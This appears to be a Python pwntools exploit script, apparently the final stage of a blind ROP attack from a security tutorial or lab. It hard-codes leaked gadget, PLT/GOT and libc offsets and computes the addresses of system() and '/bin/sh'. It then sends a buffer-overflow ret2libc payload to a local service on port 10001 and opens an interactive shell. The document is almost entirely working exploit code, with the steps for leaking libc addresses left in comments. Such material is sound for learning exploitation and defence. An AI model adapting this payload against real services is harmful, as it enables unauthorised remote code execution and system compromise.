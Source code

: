```python
#buf_size = get_buffer_size()
buf_size = 72

#stop_addr = get_stop_addr(buf_size)
stop_addr = 0x4005e5

#gadgets_addr = get_gadgets_addr(buf_size, stop_addr)
gadgets_addr = 0x40082a

#puts_plt = get_puts_plt(buf_size, stop_addr, gadgets_addr)
puts_plt = 0x4005e7     # fake puts
#puts_plt = 0x4005f0    # true puts

# dump code section from memory
# and then use Radare2 or IDA Pro to find the got address
#start_addr = 0x400000
#end_addr   = 0x401000
#code_bin = dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr)
#with open('code.bin', 'wb') as f:
#   f.write(code_bin)
#   f.close()
puts_got = 0x00601018

# you can also dump data from memory and get information from .got
#start_addr = 0x600000
#end_addr   = 0x602000
#data_bin = dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr)
#with open('data.bin', 'wb') as f:
#    f.write(data_bin)
#    f.close()

# must close ASLR
#puts_addr = get_puts_addr(buf_size, stop_addr, gadgets_addr, puts_plt, puts_got)
puts_addr = 0x7ffff7a90210

# first add your own libc into libc-database: $ ./add /usr/lib/libc-2.26.so
# $ ./find puts 0x7ffff7a90210
# or $ ./find puts 210
# $ ./dump local-e112b79b632f33fce6908f5ffd2f61a5d8058570
# $ ./dump local-e112b79b632f33fce6908f5ffd2f61a5d8058570 puts
# then you can get the following offset
offset_puts   = 0x000000000006f210
offset_system = 0x0000000000042010
offset_str_bin_sh = 0x17aff5

system_addr = (puts_addr - offset_puts) + offset_system
binsh_addr  = (puts_addr - offset_puts) + offset_str_bin_sh

# get shell
payload  = "A"*buf_size
payload += p64(gadgets_addr + 9)    # pop rdi; ret;
payload += p64(binsh_addr)
payload += p64(system_addr)
payload += p64(stop_addr)

p = remote('127.0.0.1', 10001)
p.recvline()
p.sendline(payload)
p.interactive()
```
